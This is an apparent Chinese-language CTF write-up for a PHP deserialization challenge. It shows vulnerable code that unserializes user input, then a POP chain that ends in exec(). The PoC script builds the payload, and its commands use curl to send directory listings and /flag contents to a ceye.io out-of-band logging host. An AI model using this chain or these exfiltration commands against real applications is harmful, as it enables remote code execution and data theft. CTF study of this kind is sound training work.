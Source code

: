 ```php
        return "关注嘉然," . $this->value;
    }
}

class e {
    public function __destruct()
    {
        if (a::$Do_u_like_JiaRan) {
            ($this->afkl)();
        } else {
            throw new Error("Noooooooooooooooooooooooooooo!!!!!!!!!!!!!!!!");
        }
    }
}

if (isset($_GET['data'])) {
    unserialize(base64_decode($_GET['data']));
} else {
    highlight_file(__FILE__);
}
```

a类的两个属性为静态属性，无法直接赋值改啦，看代码可以构造pop链

`c->__wakeup()`（`a::$Do_u_like_JiaRan = true;`；在随便定义个不存在的属性赋为e的实例化(new e();)）

——》`e->__destruct()`（`($this->afkl)()`触发invoke）

——》`d->__invoke()`（`a::$Do_u_like_AFKL = true;`；`return "关注嘉然," . $this->value;`触发toString）

——》`b->__toString()`（`exec($this->i_want_2_listen_2_MaoZhongDu);`exec无回显rce）

poc：

```php
<?php

class b {
    private $i_want_2_listen_2_MaoZhongDu='curl `ls / | sed -n "5p"`.xxx.ceye.io';
    # private $i_want_2_listen_2_MaoZhongDu='curl http://xxx.ceye.io/`cat /flag | base64`';
}

class c {
    public $fake;
    public function __construct(){
        $this->fake=new e();
    }
}

class d {
    public $value;
    public function __construct(){
        $this->value = new b();
    }
}

class e {
    public $afkl;
    public function __construct(){
        $this->afkl = new d();
    }
}

$a = new c();
echo base64_encode(serialize($a));
```
